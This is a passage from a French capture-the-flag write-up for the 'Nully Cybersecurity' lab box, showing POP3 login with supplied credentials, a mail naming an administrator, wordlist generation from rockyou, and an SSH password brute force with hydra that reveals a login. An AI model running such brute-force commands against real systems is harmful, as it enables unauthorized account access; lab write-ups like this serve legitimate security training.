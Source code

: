 Comme c'est un serveur utilisant le protocole **POP3** nous devons utiliser les commandes associées. Voici une liste de quelques commandes utilisables : [https://electrictoolbox.com/pop3-commands/](https://electrictoolbox.com/pop3-commands/).

Il faut commencer par s'identifier avec les mots clés ``USER`` et ``PASSWORD`` puis lister la liste des mails accessible ``LIST`` pour enfin les afficher ``RETR <number>`` :

```bash
USER pentester
PASS qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
LIST
RETR 1
```

On obtient alors le mail suivant :

```
From: root <root@MailServer>

Hello,
I'm Bob Smith, the Nully Cybersecurity mail server administrator.
The boss has already informed me about you and that you need help accessing the server.
Sorry, I forgot my password, but I remember the password was simple.
```

Nous avons le nom d'une personne qui peut potentiellement être un nom d'utilisateur. Par exemple ``bsmith``, ``bobsmith``, ``bob`` ...

* * *

## Shell basique

On se rappelle aussi qu'au début l'auteur de la box nous avait donné un indice pour éviter que l'on passe 50 heures sur du brute force :

```
Hints: 'cat rockyou.txt | grep bobby > wordlist' for generating wordlist.
```

``bobby`` ressemble fortement au Bob qui apparaît dans le mail. C'est donc une bonne piste. On va exécuter la commande pour **générer une nouvelles wordlist** dans laquelle se trouvera tous les mots du fameux dictionnaire rockyou qui contiennent le mot ``bobby``.

On tente le brute force du **SSH** avec l'utilisateur ``bob`` (on va commencer par le plus commun et le plus plausible) via l'outil ``hydra`` :

```bash
hydra -l bob -P wordlist.txt ssh://192.168.1.39 -s 2222 -t 4 -vV
```

Il ne faudra attendre que quelques instants pour voir apparaître le mot de passe correspondant :

```
[2222][ssh] host: 192.168.1.39   login: bob   password: bobby1985
```

Il ne nous reste plus qu'à se connecter au SSH. On n'oublie pas de préciser le **port** (avec l'option ``-p``) puisque ce n'est pas celui par défaut :
